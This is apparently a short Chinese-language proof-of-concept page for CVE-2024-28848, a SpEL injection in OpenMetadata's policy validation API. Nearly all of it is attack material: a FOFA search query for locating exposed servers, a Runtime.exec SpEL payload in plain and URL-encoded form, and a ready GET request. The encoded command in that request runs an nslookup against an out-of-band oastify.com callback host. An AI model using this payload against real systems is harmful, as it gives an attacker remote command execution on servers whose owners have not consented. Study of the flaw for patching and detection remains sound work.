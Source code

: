 ## OpenMetadata-SpEL注入(CVE-2024-28848)

只有经过身份验证的用户才能访问 /api/v1/policies, 未经身份验证的用户将无法访问这些 API 来利用此漏洞。用户必须存在于 OpenMetadata 中，并且已对自己进行身份验证才能利用此漏洞。

## fofa
```
icon_hash="733091897"
```

以 Base64 编码 

=>`touch /tmp/pwneddG91Y2ggL3RtcC9wd25lZA==`

运行系统命令的 

SpEL 表达式：`T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode("dG91Y2ggL3RtcC9wd25lZA==")))`

使用 URL 编码对有效负载进行编码：

```
%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%54%28%6a%61%76%61%2e%75%74%69%6c%2e%42%61%73%65%36%34%29%2e%67%65%74%44%65%63%6f%64%65%72%28%29%2e%64%65%63%6f%64%65%28%22%64%47%39%31%59%32%67%67%4c%33%52%74%63%43%39%77%64%32%35%6c%5a%41%3d%3d%22%29%29%29
```

## poc
```
GET /api/v1/policies/validation/condition/%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%54%28%6a%61%76%61%2e%75%74%69%6c%2e%42%61%73%65%36%34%29%2e%67%65%74%44%65%63%6f%64%65%72%28%29%2e%64%65%63%6f%64%65%28%22%62%6e%4e%73%62%32%39%72%64%58%41%67%61%58%70%73%4e%7a%45%33%62%33%42%69%62%57%52%79%5a%57%46%6f%61%33%4a%6f%63%44%4e%72%63%32%70%72%61%47%4a%75%4d%6d%4a%7a%65%6d%67%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%3d%22%29%29%29 HTTP/2
Host: sandbox.open-metadata.org
Authorization: Bearer <non-admin JWT>

```

## 漏洞来源
- https://github.com/advisories/GHSA-5xv3-fm7g-865r
